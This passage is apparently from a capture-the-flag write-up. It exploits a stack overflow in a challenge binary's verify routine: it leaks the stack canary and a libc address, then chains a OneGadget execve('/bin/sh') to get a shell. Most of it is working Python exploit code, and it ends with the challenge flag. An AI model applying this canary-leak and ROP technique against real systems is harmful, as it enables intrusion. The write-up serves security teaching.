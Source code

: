 The goal is now to overflow the `msg` buffer in `verify` to override the return address
of `menu` (`verify` has no return because it is inlined).
First, we have to extract the stack canary:

```py
E = b'E' * 9
s = make_suffix(256, E)  # canary is 8 bytes after `msg`, override its leading 0
m1 = c1 + s
sig, _ = sign(m1)
v = verify(c2 + s, sig)
canary = b'\0' + v.split(E)[1][:7]  # add leading 0 back
```

Next we need to determine the memory location of libc.
For that, we use the fact that the return address of `__libc_start_main`
lies on the stack (specifically `__libc_start_main + 231`).

```py
# get libc_start_main return address
F = b'F' * 16
s = make_suffix(328, b'F' * 16)
sig, _ = sign(c1 + s)

v = verify(c2 + s, sig)
libc_ret = u64(v.split(F)[1].ljust(8, b'\0'))
libc_addr = libc_ret - LIBC.symbols.__libc_start_main - 231
```

Now, we write the address, we want to jump to.
[OneGadget](https://github.com/david942j/one_gadget) gives:
```
0x10a45c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```
Our very short ROP chain to execute `/bin/sh` is then written as follows.
We need an extra `ret` to satisfy `[rsp+0x70] == 0`.
```py
gadget = 0x10a45c + libc_addr
ret = libc_addr + 0x979
s = make_suffix(328, p64(ret) + p64(gadget))
sig, _ = sign(c1 + s)
v = verify(c2 + s, sig)
```
Finally, we override the canary and then exit. 
```py
s = make_suffix(256 + 8, canary + b'a' * 8 + b'X' * 8)
sig, _ = sign(c1 + s)
v = verify(c2 + s, sig)
```
After exiting `menu`, we get a shell and then flag `dam{1_wOUldN'T-tru$t-MDS_7O-TaKE_MY_t3MP3r47UrE}`.

## Complete Exploit Code
